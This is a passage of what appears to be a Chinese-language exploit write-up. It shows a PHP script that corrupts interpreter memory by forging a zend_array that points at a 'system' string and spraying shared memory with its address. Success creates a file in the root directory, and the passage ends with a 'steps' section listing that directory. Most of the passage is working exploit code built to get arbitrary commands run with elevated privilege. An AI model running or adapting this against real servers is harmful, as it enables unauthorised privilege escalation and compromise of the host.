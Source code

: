 ```
	$b = ord($evil_string[$i]);
	write_mem($evil_string_start_addr+$i,$b);
}
write_mem($evil_string_start_addr+$i,0);

//将zend_array中的arData指向system字符串
$ar_data = $evil_zend_array_start_addr + 0x10;
echo "ar_data(0x".dechex($ar_data).") => evil string\n";
write_mem_qword($ar_data,$evil_string_start_addr);

//将zend_array中的nNumUsed设置为1，（自行分析代码去）
$nNumUsed = $evil_zend_array_start_addr + 0x18;
write_mem_qword($nNumUsed,1);


//堆喷
echo "\nSpraying the shared memory start\n\n";

$shm_region = get_mem_region("/dev/zero");
$evil_shm_start_addr = $evil_string_end_addr;
$evil_shm_end_addr = $shm_region[0][1];
$evil_shm_size = $evil_shm_end_addr - $evil_shm_start_addr;

$evil_shm_mid_addr = $evil_shm_start_addr + 8*((int)(((int)($evil_shm_size/2))/8) + 1);

echo "evil_shm_start:0x".dechex($evil_shm_start_addr)."\n";
echo "evil_shm_end:0x".dechex($evil_shm_end_addr)."\n";
echo "evil_shm_size:".dechex($evil_shm_size)."\n";

for($i = 0;$i<$evil_shm_size;$i+=8){
	write_mem_qword($evil_shm_start_addr+$i,$evil_zend_array_start_addr);
}


echo "evil_shm_mid_addr:0x".dechex($evil_shm_mid_addr)."\n";

echo "bucket:".dechex($bucket)."\n";
?>
```

利用成功时，会在根目录下，创建hello文件

### 步骤

#### 根目录显示

```
➜  ~ ls /
bin  boot  dev  etc  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  www
```
